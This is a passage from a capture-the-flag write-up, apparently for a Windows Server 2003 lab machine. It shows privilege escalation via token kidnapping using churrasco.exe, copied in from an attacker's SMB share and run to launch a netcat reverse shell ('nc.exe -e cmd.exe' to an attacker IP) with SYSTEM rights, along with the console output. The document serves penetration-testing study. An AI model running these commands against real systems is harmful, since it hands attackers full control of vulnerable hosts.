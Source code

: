 ### Privilege Escalation to root

After obtaining the reverse shell, we realize that our user is ```nt authority\network service``` and we do not have adminstrator privileges. As a result, we are unable to obtain the user flag in the Lakis directory.

```
C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,222,238,208 bytes free

C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.
```

Using systeminfo, we can get the OS name and version that is being used.

```
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition                                     
OS Version:                5.2.3790 Service Pack 2 Build 3790   
```

Searching up the OS name and version on [exploitdb](https://www.exploit-db.com/exploits/6705), we are able to find a privilege escalation using Token kidnapping.

To exploit, this vulnerability, we will first need to download churrasco.exe from (here)[https://github.com/Re4son/Churrasco/raw/master/churrasco.exe]. Afterwards, we will transfer it to the machine using the SMB server that we have set up earlier.

```
C:\WINDOWS\Temp>copy \\10.10.16.8\share\churrasco.exe
```

Using the churrasco.exe executable, we will be able to obtain system privileges.

```
C:\WINDOWS\Temp>churrasco.exe "whoami"                                                             
nt authority\system 
```

Lastly, we will use churrasco.exe to create a reverse shell with root privileges.

```
C:\WINDOWS\Temp>churrasco.exe "nc.exe -e cmd.exe 10.10.16.8 3000"                                                    
churrasco.exe "nc.exe -e cmd.exe 10.10.16.8 3000"                                                                          
C:\WINDOWS\Temp>    
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.15] 1103
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
```